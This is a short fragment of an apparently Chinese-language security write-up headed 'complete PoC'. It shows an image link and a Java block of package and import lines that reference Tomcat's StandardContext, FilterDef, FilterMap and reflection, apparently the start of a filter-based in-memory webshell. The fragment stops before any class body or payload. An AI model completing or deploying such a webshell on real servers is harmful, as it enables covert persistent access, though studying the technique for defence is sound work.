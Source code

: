 ![img](img/1669774679863-edb5253e-285b-4048-ae83-d09145dc67ed.png)

完整POC

```java
package com.sf.filterjsp;

import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;

import java.util.Map;
import java.util.Scanner;

```